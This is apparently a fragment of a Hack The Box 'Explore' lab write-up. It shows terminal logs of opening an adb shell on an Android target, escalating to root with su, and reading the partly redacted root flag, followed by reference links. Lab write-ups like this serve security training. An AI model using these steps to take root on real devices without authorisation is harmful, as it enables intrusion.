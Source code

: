 - we can also take adb shell
```bash
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# adb shell            
x86_64:/ $ whoami
shell
x86_64:/ $
```

- from here we escalate to root using su command
- [privesec method adb ](https://opensourceforgeeks.wordpress.com/2015/11/10/how-to-run-adb-shell-always-as-a-root/)
```sql
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# adb shell            
x86_64:/ $ su
:/ # whoami
root
:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04f*************************8c5
:/ # 
```

# Use full links 
- https://opensourceforgeeks.wordpress.com/2015/11/10/how-to-run-adb-shell-always-as-a-root/
-  https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands
